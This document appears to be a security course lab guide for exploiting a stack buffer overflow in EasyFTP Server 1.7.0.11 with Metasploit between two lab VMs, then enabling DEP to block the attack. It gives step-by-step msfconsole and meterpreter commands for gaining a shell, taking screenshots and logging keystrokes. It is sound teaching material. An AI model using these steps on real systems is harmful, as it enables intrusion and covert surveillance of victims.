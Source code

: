 # Taking Control of a Server with Metasploit

## Description
- Take control of a server on which EasyFtp Server 1.7.0.11 is installed and on service with [Metasploit](https://www.metasploit.com/)
  - There is a vulnerability of stack-based buffer overflow in [EasyFTP Server 1.7.0.11 and earlier](https://www.rapid7.com/db/modules/exploit/windows/ftp/easyftp_cwd_fixret/)
  - There is an [exploit](https://www.exploit-db.com/exploits/14402) integrated with [metasploit-framework](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/ftp/easyftp_cwd_fixret.rb)
- There are [many software](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=buffer+overflow) contain the vulnerability of buffer overflow, but not all of them can be used to take control of a server

## Equipment
- Both the Kali Linux VM 🐧 and the Windows server VM 🪟

## Tasks
On Windows server VM 🪟

0. Stop the FileZilla server
1. Install, configure and run EasyFTP
   1. Download [EasyFTP Server 1.7.0.11](../repo/easyftp-server-1.7.0.11-en.7z)
   2. unzip it with [7-zip](https://www.7-zip.org/). If you did not install 7-zip, download and install it first
   3. In the unzipped folder, run ftpconsole
   4. Stop the FTP service
   5. Configure the FTP service binding IP address to the Windows VM IP
   6. Restart EasyFTP Server. If the service won't start, delete the possibly installed broken version
   ```cmd
   :: open a command windows, run it as Administrator
   sc delete easyftpbasicsvr
   ```

On Kali Linux VM 🐧, in a command terminal

2. Exploit the Windows target

```bash
# 2.1 Find a metasploit exploit
# ~$ - inside terminal msf> - inside metasploit
~$ msfconsole -q
msf> search easyftp

# 2.2 Select options and target
msf> use exploit/windows/ftp/easyftp_cwd_fixret
msf exploit(easyftp_cwd_fixret) > show options # find the required options

msf exploit(easyftp_cwd_fixret) > show targets

# 2.3 Exploit the target
msf exploit(easyftp_cwd_fixret) > set RHOST Windows_VM_IP
msf exploit(easyftp_cwd_fixret) > set TARGET Number_of_target_Windows_Universal - v1.7.0.11
msf exploit(easyftp_cwd_fixret) > exploit # enter meterpreter if succeeded

# 2.4 Loot the target
# 2.4.1 find the usage of meterpreter
meterpreter > help
# 2.4.2 get the system information of the victim
meterpreter > sysinfo
# 2.4.3 get an image of the target's desktop
meterpreter > screenshot
# 2.4.4 key logging
# Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
meterpreter > keyscan_start
# Shows the keystrokes captured so far
meterpreter > keyscan_dump	

# 2.4.5 Get a Windows Command Prompt on the target
meterpreter > shell
# Leaves the Windows Command Prompt
C:\Users\Administrator :$ exit
meterpreter > 

# 2.4.6 exit meterpreter
meterpreter > exit
msf >

# 2.4.7 exit metasploit
msf > exit
~ $
```

On Windows server VM 🪟

3. Hardening the target machine by turning on Data Execution Protection (DEP) 
4. Restart Windows server VM then restart EasyFTP

On Kali Linux VM 🐧

5. Launch the easyftp_cwd_fixret exploit again

On Windows server VM 🪟

6. If you see a box pops up saying "ftpbasicsvr.exe has stopped working", then DEP has saved your server by stopping the attack!


# Reference
- [Project 3C: Metasploit v. EasyFTP](https://samsclass.info/123/proj14/p3cmet.htm)
- *Metasploit*
  - [METERPRETER BASIC COMMANDS](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)
  - [Ultimate List of Meterpreter Commands](https://www.hackers-arise.com/ultimate-list-of-meterpreter-command)
  - [Metasploit unleashed](https://www.offsec.com/metasploit-unleashed/)